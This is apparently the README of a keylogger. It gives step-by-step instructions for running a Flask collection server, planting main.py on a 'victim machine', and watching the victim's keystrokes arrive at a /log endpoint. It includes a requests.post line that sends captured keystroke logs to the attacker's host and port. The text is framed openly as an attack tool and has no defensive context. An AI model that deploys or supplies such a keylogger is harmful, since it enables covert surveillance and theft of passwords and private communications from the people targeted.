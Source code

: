 **Setup:**
1) Install Flask server on your host machine : pip install Flask
2) Run the server: python server.py
3) Transfer the main.py to victim machine
4) Run main.py on victim machine : python main.py
5) Accessing the Logs:
To view the logs collected by the server, follow these steps:
Open a Web Browser: Launch your preferred web browser (e.g., Chrome, Firefox, Safari).
Visit the URL: Enter the following URL in the address bar:  "http://<hostIP>:<port>/log"

As soon as your victim starts typing your log file on your server will be updated. (if not refresh the page)
----------------------------------------------------------------------------------------------------------------
In the server.py file, you can change the port number to your desired value. For example:
if __name__ == '__main__':
    app.run(host='0.0.0.0', port=4444)

and In the main.py file, update the URL in the requests.post call to match the server's IP address and port number. For example:
**try:
    requests.post('http://<host_ip>:<port_number>/log', data={'log': log_data})**
Replace <host_ip> with the server's IP address and <port_number> with the port number specified in your server.py (e.g., 4444).
